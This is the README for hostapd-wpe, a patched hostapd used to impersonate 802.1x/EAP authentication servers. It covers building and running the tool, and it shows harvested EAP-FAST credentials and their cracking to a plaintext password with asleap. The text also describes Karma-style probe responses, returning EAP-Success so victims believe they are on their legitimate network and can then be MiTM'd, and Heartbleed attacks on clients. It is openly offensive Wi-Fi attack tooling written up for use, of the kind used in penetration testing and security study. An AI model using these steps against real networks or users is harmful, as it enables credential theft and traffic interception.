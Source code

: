 # About

hostapd-wpe is the replacement for [FreeRADIUS-WPE](http://www.willhackforsushi.com/?page_id=37).

It implements IEEE 802.1x Authenticator and Authentication Server impersonation attacks to obtain client credentials, establish connectivity to the client, and launch other attacks where applicable. 

hostapd-wpe supports the following EAP types for impersonation:
1. EAP-FAST/MSCHAPv2 (Phase 0)
2. PEAP/MSCHAPv2
3. EAP-TTLS/MSCHAPv2
4. EAP-TTLS/MSCHAP
5. EAP-TTLS/CHAP
6. EAP-TTLS/PAP

Once impersonation is underway, hostapd-wpe will return an EAP-Success message so that the client believes they are connected to their legitimate authenticator.

For 802.11 clients, hostapd-wpe also implements Karma-style gratuitous probe responses. Inspiration for this was provided by [JoMo-Kun's patch](http://www.foofus.net/?page_id=115) for older versions of hostapd.

hostapd-wpe also implements CVE-2014-0160 (Heartbleed) attacks against vulnerable clients. Inspiration for this was provided by the [Cupid](https://github.com/lgrangeia/cupid) PoC.

hostapd-wpe logs all data to stdout and hostapd-wpe.log

# Quick Usage
Once hostapd-wpe.patch is applied, hostapd-wpe.conf will be created at /path/to/build/hostapd/hostapd-wpe.conf. See that file for more  information. Note that /path/to/build/hostapd/hostapd-wpe.eap_users will also be created, and hostapd-wpe is dependent on it. 

Basic usage is:

```
hostapd-wpe hostapd-wpe.conf 
```

Credentials will be displayed on the screen and stored in hostapd-wpe.log

Additional WPE command line options are:

```
-s  Return EAP-Success messages after credentials are harvested
-k  Gratuitous probe responses (Karma mode) 
-c  Attempt to exploit CVE-2014-0160 (Cupid mode)
```

# Building

## Dependencies

- pkg-config
- libssl (1.0 ideally)
- libnl3 (and genl)
- sqlite3

Note: If libssl 1.1 is used, Heartbleed is not present due to issue #2122 in openssl GitHub repository

## Debian-based distro

```
apt-get install libssl-dev libnl-genl-3-dev libnl-3-dev pkg-config libsqlite3-dev build-essential wget --no-install-recommends
```

## General

```
wget https://raw.githubusercontent.com/aircrack-ng/aircrack-ng/master/patches/wpe/hostapd-wpe/hostapd-2.10-wpe.patch
wget https://w1.fi/releases/hostapd-2.10.tar.gz
tar -zxf hostapd-2.10.tar.gz
cd hostapd-2.10
patch -p1 < ../hostapd-2.10-wpe.patch
cd hostapd
```

Then:

```
make
make install
make wpe
```

# Creating certs

```
cd /etc/hostapd-wpe/certs
./bootstrap
make install
```

# Running

With all of that complete, you can run hostapd. The patch will create a new hostapd-wpe.conf, which you'll likely need to modify in order to make it work for your attack. Once ready just run

```
hostapd /etc/hostapd-wpe/hostapd-wpe.conf
```

Look in the output for the username/challenge/response. It'll be there and in a hostapd-wpe.log file in the directory you ran hostapd from for instance here are the EAP-FAST Phase 0 creds from stdout:

```
username: jdslfkjs
challenge: bc:87:6c:48:37:d3:92:6e
response: 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0
```

and finally, feed them into asleap to crack:

```
# asleap -C bc:87:6c:48:37:d3:92:6e -R 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0 -W wordlist 
asleap 2.3 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
hash bytes:        b1ca
NT hash:           e614b958df9df49ec094b8730f0bb1ca
password:          bradtest
```

Alternatively MSCHAPv2 credentials are outputted in john the rippers NETNTLM format. 

## Troubleshooting

### OpenSSL: tls_global_ca_cert - Failed to load root certificates error:02001002:system library:fopen:No such file or directory

Certificates are not created. Follow the procedure above to create them

### nl80211 driver initialization failed.

One of the possible reasons is that other processes are using the interface. Running ```airmon-ng check kill``` fixes the issue (it will kill any network manager and network connection).

# EAP-Success

Certain EAP types do not require the server to authenticate itself, just to validate the client's submitted credentials. Since we're playing the authentication server, that means we can easily just return an EAP-Success message to the client regardless of what they send us. The client is happy because they've connected, but unfortunately are unaware that they are connected to an unapproved authenticator. 

At this point, the attacker can set up a dhcp server and give the client an IP and then do whatever they'd like (e.g. redirect dns, launch attacks, MiTM, etc..)

MSCHAPv2 protects against this by having the server prove knowledge of the password most supplicants adhere to this policy, but we return EAP-Success just in case. 

# Karma-Style Probes

This functionality simply waits for an client to send a directed probe, when it does, it assumes that SSID and responds to the client. Only applicable to 802.11 clients.

# A note on MSCHAPv2

Microsoft offers something called "Computer Based Authentication". When a computer joins a domain it is assigned a password. This password is stored on the system and in active directory. We can harvest the MSCHAPv2 response from these systems but its going to take a lifetime to crack. Unless you're just trying to solve for the hash, and not the actual password :)

One other thing to note, if the client returns all zeros, it isnt joined to a domain. 

# Testing Heartbleed

If you're running Ubuntu and want to test Heartbleed you'll need to downgrade to a vulnerable version of OpenSSL. That can be done by:

```
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/5436465/+files/openssl_1.0.1-4ubuntu5.11_i386.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/5436465/+files/libssl-dev_1.0.1-4ubuntu5.11_i386.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/5436465/+files/libssl-doc_1.0.1-4ubuntu5.11_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/5436465/+files/libssl1.0.0_1.0.1-4ubuntu5.11_i386.deb
sudo dpkg -i libssl1.0.0_1.0.1-4ubuntu5.11_i386.deb 
sudo dpkg --install libssl1.0.0_1.0.1-4ubuntu5.11_i386.deb \
libssl-dev_1.0.1-4ubuntu5.11_i386.deb \
libssl-doc_1.0.1-4ubuntu5.11_all.deb \
openssl_1.0.1-4ubuntu5.11_i386.deb
```

Then use wpa_supplicant to connect to hostapd-wpe -c 
